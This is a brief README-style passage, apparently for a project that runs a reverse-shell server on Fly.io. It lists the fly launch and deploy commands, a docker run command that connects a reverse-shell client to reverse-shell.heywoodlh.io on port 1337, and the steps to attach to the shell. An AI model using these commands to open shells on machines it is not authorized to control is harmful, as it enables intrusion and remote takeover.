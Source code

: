 ```
fly launch --no-deploy --copy-config
fly deploy
```

On the prompt to tweak settings, press "yes", set port to 0.

# Initiate reverse shell:

```
docker run --hostname=client -it -e SERVER_ADDRESS=reverse-shell.heywoodlh.io -e SERVER_PORT=1337 --rm docker.io/heywoodlh/reverse-shell:client
```

# Attach to reverse shell

```
fly ssh console
/attach.sh
```

